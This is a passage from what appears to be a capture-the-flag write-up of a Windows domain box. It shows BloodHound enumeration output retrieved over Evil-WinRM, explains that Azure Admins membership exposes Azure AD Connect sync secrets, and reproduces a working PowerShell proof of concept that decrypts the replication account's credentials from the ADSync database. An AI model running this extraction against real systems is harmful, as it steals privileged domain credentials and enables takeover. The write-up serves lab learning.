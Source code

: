 ```bash
2025-09-16T07:47:42.5342256-07:00|INFORMATION|SharpHound Enumeration Completed at 7:47 AM on 9/16/2025! Happy Graphing!

*Evil-WinRM* PS C:\Users\mhope\Desktop> download 20250916074742_BloodHound.zip
                                        
Info: Downloading C:\Users\mhope\Desktop\20250916074742_BloodHound.zip to 20250916074742_BloodHound.zip
                                        
Info: Download successful!

```

I Loaded the data into bloodhound and tried to look for any intresting paths but found none.

Since i didnt found much on the domain itself i tired to enumerate the user privs and permissions

One thing i found intresting was the user was a part of the azure admins group.

## Shell as Administrator

Since we were the part of the azure admins group, the user mhope is able to conncet to the database the azureAD uses and ,get the encryption key to decrypt the data of the replication account and get the username and password of the account which handles the replication of the azure domain.

We can get more on deatil from [this](https://blog.xpnsec.com/azuread-connect-for-redteam/) blog.

We can get the poc powershell script from the above blog and use another way to connect to the sql server instead of the above method used in the blog since it is a bit old, i guess it doest work like that now.

```bash
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=localhost;Integrated Security=true;Initial catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

```